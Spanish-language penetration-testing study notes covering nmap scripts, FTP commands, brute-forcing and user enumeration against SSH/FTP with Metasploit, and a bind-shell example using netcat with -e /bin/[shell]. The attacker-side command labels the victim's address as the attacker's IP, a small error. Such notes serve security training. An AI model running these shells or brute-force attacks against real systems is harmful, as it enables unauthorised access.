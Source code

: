 Sirven para la enumeracion de servicios en detalle, deteccion de vulnerabilidades y backdoors y realizacion de ciertos tipos de ataque de fuerza bruta. Son similares a los modulos auxiliares de Metasploit.

Pueden ejecutarse con:

``` bash
sudo nmap --script [nombreScript] [IP]
```

---

## Enumeracion 4 - SSH y FTP

Son dos de los servicios mas basicos, se pueden enumerar mediante scripts de nmap. En el caso de FTP debemos saber algunos comandos propios:

- help: ver todos los comandos
- help {comando}: ver que hace un comando
- pwd: ver directorio
- dir / ls: ver directorio
- !: ejecutar comandos en la maquina local (!ls para listar la maquina local)
- put: intentar subir ficheros
- get: Descargar fichero
- mget: Descargar ficheros masivamente
- put: subir ficheros
- mput: subir ficheros masivamente
- mkdir: crear carpetas
- rm: borrar

Se pueden hacer ataques de fuerza bruta y password spray contra FTP y SSH. Si SSH es OpenSSH <7.7 ademas es vulnerable a un ataque de fuerza bruta de usuarios que podemos hacer mediante metasploit (Con el modulo auxiliar auxiliary/scanner/ssh/ssh_enumusers y una wordlist como por ejemplo /usr/share/metasploit-framework/unix_users.txt)

---

## Explotacion 1 - Bind Shells y Reverse Shells

- Bind Shell: El atacante inicia la conexion
- Reverse Shell: La victima inicia la conexion

(Ver adquisicion de shells con distintos metodos: InternalAllTheThings)

**Bind Shell**:

En la victima: 

``` bash
nc -nlvp [puerto] -e /bin/[shellbin]
```

En el equipo atacante:

``` bash
nc -nv [ipAtacante] [puerto]
```
